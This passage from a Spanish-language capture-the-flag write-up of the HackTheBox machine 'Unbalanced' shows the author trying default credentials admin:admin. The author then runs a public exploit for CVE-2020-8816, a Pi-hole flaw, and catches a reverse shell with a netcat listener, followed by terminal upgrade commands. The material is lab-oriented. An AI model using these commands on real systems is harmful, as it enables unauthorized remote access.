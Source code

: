Existe en este caso

<img src="/writeups/assets/img/Unbalanced-htb/8.png" alt="">

Pruebo credenciales por defecto, ```admin:admin```. Busco por el CVE y me descargo otro exploit de [Github](https://raw.githubusercontent.com/AndreyRainchik/CVE-2020-8816/master/CVE-2020-8816.py), que esté más funcional. Ejecuto y recibo una reverse shell

```null
 python3 CVE-2020-8816.py http://127.0.0.1:8080 admin 10.10.16.9 443
Attempting to verify if Pi-hole version is vulnerable
Logging in...
Login succeeded
Grabbing CSRF token
Attempting to read $PATH
```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.200] 59104
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@pihole:/var/www/html/admin$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@pihole:/var/www/html/admin$ export TERM=xterm
www-data@pihole:/var/www/html/admin$ export SHELL=bash
www-data@pihole:/var/www/html/admin$ stty rows 55 columns 209
```
